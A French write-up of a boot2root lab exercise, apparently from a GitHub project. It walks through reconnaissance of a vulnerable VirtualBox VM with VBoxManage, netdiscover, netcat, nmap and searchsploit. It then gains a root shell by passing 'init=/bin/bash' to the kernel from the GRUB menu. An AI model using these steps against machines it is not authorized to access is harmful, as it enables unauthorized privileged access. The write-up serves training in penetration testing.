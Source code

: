 # Writeup #1

## Contexte

L'ISO fournie est executé dans *VirtualBox* avec un adaptateur
réseau attaché sur **Bridged Adapter** sur **en0: Ethernet** afin
de pouvoir travailler sur le poste en local.

## Collecte d’informations

### Analyse de la VM

VirtualBox fournit des outils en ligne de commande permettant
de query certaines informations a propos de la VM. Il est possible
dans un premier temps de récuperer la version du **kernel/release** ainsi
que son IP associé via de simples commandes:

```bash
VBoxManage guestproperty enumerate $VM_NAME | grep "OS/Release"
VBoxManage guestproperty enumerate $VM_NAME | grep "V4/IP"
```

Ce qui nous donne:

```
Name: /VirtualBox/GuestInfo/OS/Release, value: 3.2.0-91-generic-pae [...]
Name: /VirtualBox/GuestInfo/Net/0/V4/IP, value: 10.11.200.46 [...]
```

Dans le cas ou les guests additions de VirtualBox ne sont pas installes sur la
machine virtuelle, il faudra alors recuperer l'adresse MAC de la machine
(Settings -> Network -> Advanced -> MAC address)

Et ensuite executer les commandes suivantes:

```
ANALYSER_IP=$(hostname -I | cut -d" " -f1)
netdiscover -r $ANALYSER_IP/24
```

De la on doit avoir l'adresse IP ainsi que l'adresse MAC de la machine
virtuelle.

D'autre part, lors du démarage de la machine virtuelle, il est possible
en restant appuyé sur la touche [Shift](https://wiki.archlinux.org/index.php/GRUB/Tips_and_tricks#Hide_GRUB_unless_the_Shift_key_is_held_down) d'accéder au menu de boot afin
de pouvoir lancer le kernel du système manuellement, et optionnellement lui
passer certains paramètres.

![Boot Menu](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/boot1.png)

## La recherche de vulnérabilités

### Recuperation de la version du du daemon OpenSSH

Lors d'une connection simple avec **netcat**, le serveur renvois
d'apres la [RFC](http://www.openssh.com/txt/rfc4253.txt) une **identification string**

```
[...]
4.2.  Protocol Version Exchange

   When the connection has been established, both sides MUST send an
   identification string.  This identification string MUST be

      SSH-protoversion-softwareversion SP comments CR LF
[...]
```

De ce fait, il est possible via l'IP recuperee precedement d'en
connaitre sa version:

```bash
nc -w1 $TARGET 22
```

Ce qui nous donne:

```
SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.7
```

### Scanning de port

En utilisant l'outil **Nmap**, il est possible d'effectuer un scan
plus avance avec des informations sur les services bindes sur l'host.

```bash
nmap -A -T4 -Pn --reason -vvv $TARGET
```

A partir de la sortie du logiciel, nous pouvons determiner l'existance
de plusieurs services sur la machine virtuelle (sortie tronque):

```
[...]
21/tcp  open  ftp      syn-ack vsftpd 2.0.8 or later
  |_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open ssh syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
[...]
80/tcp  open  http     syn-ack Apache httpd 2.2.22 ((Ubuntu))
  | http-methods:
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: Apache/2.2.22 (Ubuntu)
  |_http-title: Hack me if you can
143/tcp open imap syn-ack Dovecot imapd
[...]
993/tcp open ssl/imap syn-ack Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Liste des services

- OpenSSH [OpenSSH 5.9p1 Debian 5ubuntu1.7]
- VSFTPD [vsftpd 2.0.8 or later]
- Apache HTTPD + SSL [Apache httpd 2.2.22 Ubuntu]
- Dovecot IMAPD + SSL [UNKNOWN]

### Recherche de vulnérabilités

A partir de la liste des services, il est desormais possible de
rechercher des CVE a l'aide de l'outil **searchsploit**:

```bash
QUERY=(
	"OpenSSH 5.9p1"
	"vsftpd 2.0.""
	"Apache httpd 2.2""
)

for i in "${QUERY[@]}"; do
    searchsploit $i
done
```

## L’exploitation

Comme nous avons pu remarquer, il nous est possible de modifier
les paramètres du kernel. En lisant la [documentation](https://www.kernel.org/doc/Documentation/admin-guide/kernel-parameters.txt) une option peut nous paraître bien intéressante:

```
	init=		[KNL]
			Format: <full_path>
			Run specified binary instead of /sbin/init as init
			process.
```

De ce fait il nous est possible de remplacer le binaire d'**init** par un autre
comme par exemple un shell:

```bash
$KERNEL rw quiet init=/bin/bash
```

Note: La variable `$KERNEL` est le binaire disponible via la completion par la touche **Tab**, dans
plusieurs cas de tests, il s'avère que le binaire se nomme `live`.

![Init 1](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/boot2.png)
![Init 2](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/boot3.png)

Nous sommes désormais en possession d'un shell en tant qu'utilisateur **root**.
Conclusion, protéger les accès aux paramètres du kernel.

